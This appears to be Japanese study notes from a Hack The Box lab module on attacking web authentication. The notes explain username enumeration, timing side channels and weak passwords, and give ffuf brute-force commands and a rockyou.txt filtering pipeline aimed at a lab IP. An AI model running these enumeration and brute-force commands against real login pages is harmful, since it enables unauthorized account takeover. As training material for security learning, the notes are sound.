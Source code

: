 ffufを使って、ユーザー列挙できるよね
```sh
ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt \
-u http://172.17.0.2/index.php \
-X POST \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "username=FUZZ&password=invalid" \
-fr "Unknown user"
```

あとは、Webアプリケーションの応答内容の違いが最も分かりやすいユーザー列挙手法ですが、それ以外にも**サイドチャネル**を用いた列挙も可能
- サイドチャネル攻撃は、アプリケーションの直接的な応答ではなく、応答時間などの付随情報を分析する
	- 例えば、アプリケーションが有効なユーザー名に対してのみデータベース検索を行っている場合、有効なユーザー名を使用したときだけ応答に時間がかかる、といった挙動の差が現れることがある
	- 応答内容が同一でも**レスポンスタイミング**の差から有効なユーザー名を推測することが可能


## パスワード
- 有効なユーザーを特定した後、パスワードベースの認証では、ユーザーの認証手段として**パスワードのみに依存**する
- ユーザーは記憶しやすいパスワードを選ぶ傾向があるため、攻撃者がそれを推測したり総当たり攻撃（ブルートフォース）で突破する可能性がある

### 理論
パスワードの問題点
- パスワードの使い回し
	- 同じパスワードを複数のアカウントで使う人が多く、あるアカウントが侵害されると、他のサービスも同じ資格情報で突破されるリスクがあります（パスワードスプレー攻撃）
- 弱いパスワードの使用
	- よくあるフレーズ、辞書に載っている単語、単純なパターンに基づくパスワードは、総当たり攻撃（ブルートフォース）で簡単に破られる可能性がある

### 攻撃
- ブルートフォース攻撃の成功は、以下の2つに依存する
	1.	試行回数（何回試せるか）
	2.	攻撃にかかる時間（どれくらいで終わるか）
	- したがって、適切なワードリストの選定が極めて重要

- サンプルWebアプリケーションのログイン画面とかにパスワード要件とかが書かれてたら、辞書のヒントになるよね
	- rockyou.txtから該当するパスワードだけ抽出することで、より短時間で見つけられる
```sh
grep '[[:upper:]]' /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
snowyowl644@htb[/htb]$ wc -l custom_wordlist.txt
151647 custom_wordlist.txt
```

まず、burpsuiteなどで、どんなリクエストがきているかを確認してから、ffufとかでブルートフォースできる
```shell-session
ffuf -w ./custom_wordlist.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```



## パスワードリセットトークン
- 多くのウェブアプリケーションでは、ユーザーがパスワードを忘れた場合にパスワード回復機能が実装されている
- このパスワード回復機能は通常、SMSやEメールなどを介してユーザーに送信される**ワンタイムリセットトークン**に依存する
- ユーザーはこのトークンを使用して認証を行い、パスワードをリセットしてアカウントにアクセスできる
- 脆弱なパスワードリセットトークンは、攻撃者によってブルートフォースされたり、予測されたりする可能性があり、その結果、被害者のアカウントが乗っ取られる危険がある
